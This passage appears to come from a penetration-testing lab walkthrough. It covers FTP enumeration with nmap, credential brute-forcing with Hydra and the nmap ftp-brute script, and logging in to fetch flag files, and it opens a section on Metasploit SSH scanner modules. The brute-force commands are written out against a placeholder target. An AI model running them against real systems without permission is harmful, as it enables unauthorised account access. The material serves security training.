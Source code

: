 ### 1.2. Exploiting FTP

**FTP** (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.

**Objective** - Answer the following questions:
1) What is the version of FTP server?
2) Use the username dictionary 
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	- List all found credentials.
3) Find the password of user “sysadmin” using nmap script.
4) Find seven flags hidden on the server.

```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
# 1) 21/tcp open ftp ProFTPD 1.3.5a

# We can also check this using nmap scripts.
ls -al /usr/share/nmap/scripts/ | grep ftp-*
nmap -p 21 --script <script_name> <target_IP>

# 2) Hydra command for performing a brute-force attack on the FTP service.
# -t4, this sets the number of parallel connections (threads) to 4.
hydra 
-L /usr/share/metasploit-framework/data/wordlists/common_users.txt
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
ftp://<target_IP> -t 4

# 3) Find the password of user “sysadmin” using nmap script.
nmap --script ftp-brute --script-args userdb=/root/users -p 21 <target_IP>

# 4) Establish a connection to the FTP service
ftp <target_IP>
<user>
<password>
# When executed, this command attempts to establish a connection to the FTP service running on the target machine. If successful, you'll be prompted to enter a username and password for authentication. Use the credentials found with Hydra.
dir
get secret.txt
exit
cat secret.txt
```

### 1.3. Exploiting SSH

**SSH (Secure Shell)** is a network protocol that allows secure access to remote systems over an unsecured network. It provides encrypted communication between a client and a server, typically used for remote administration, file transfers, and tunneling.

**Objective**: Your task is to run the following auxiliary modules against the target:
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login
